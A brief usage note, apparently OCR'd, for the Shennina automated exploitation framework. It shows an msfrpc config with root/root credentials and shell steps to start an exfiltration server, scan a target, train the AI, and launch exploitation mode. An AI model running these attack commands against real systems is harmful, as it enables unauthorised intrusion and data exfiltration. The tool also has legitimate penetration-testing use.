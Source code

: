# Shennina

/config/msfrpg-config.json

{
  "password": "root",
  "user": "root",
  "host": "172.17.0.1",
  "port": 55553,
  "ssl": false
}

## Step 1 Shell 1

# -------runs exfiltration server (separeted console)

cd ./exfiltration-server/

sudo ./run-server.sh

## Step 2 Shell 2

# ------runs msfconsole (separeted console)

./scripts/run-msfrpc.py

## Step 3 Shell 3

# ------runs shennina

./shennina.py --initialize-exploits-tree


#------ scanning phase------#

sudo ./shennina.py --lhost metasploit-ip --target target.local --service-scan-only

# ------------- training shennina ------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --training-mode

# --------------- attacking with recommended exploit given by shennina AI -------------------#
sudo ./shennina.py --target 127.0.0.1 --lhost $target_IP --exploitation-mode




